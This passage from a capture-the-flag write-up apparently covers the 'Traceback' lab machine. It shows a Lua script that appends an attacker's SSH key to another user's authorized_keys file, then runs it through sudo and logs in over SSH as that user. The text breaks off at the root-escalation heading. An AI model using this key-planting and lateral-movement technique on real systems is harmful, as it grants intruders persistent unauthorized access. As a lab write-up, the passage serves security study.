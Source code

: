 ```

authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\n")
authkeys:close()

```

The filename is arbitrary, but it does need to end in `.lua`.

Running it fails on it’s own, but using `sudo` to run as sysadmin works without issue:

```

webadmin@traceback:~$ /home/sysadmin/luvit /dev/shm/.0xdf.lua 
-bash: /home/sysadmin/luvit: Permission denied

webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit /dev/shm/.0xdf.lua

```

### SSH

Now I can SSH as sysadmin:

```

root@kali# ssh -i ~/keys/ed25519_gen sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Mar  6 02:31:26 2020 from 10.10.14.6
$ 

```

I’ll note the welcome message, “OWNED BY XH4H”. It seems that attacker changed the welcome message.

After running `bash` to get a better shell, grab user.txt:

```

sysadmin@traceback:~$ cat user.txt
c2434970************************

```

## Priv: sysadmin –> root
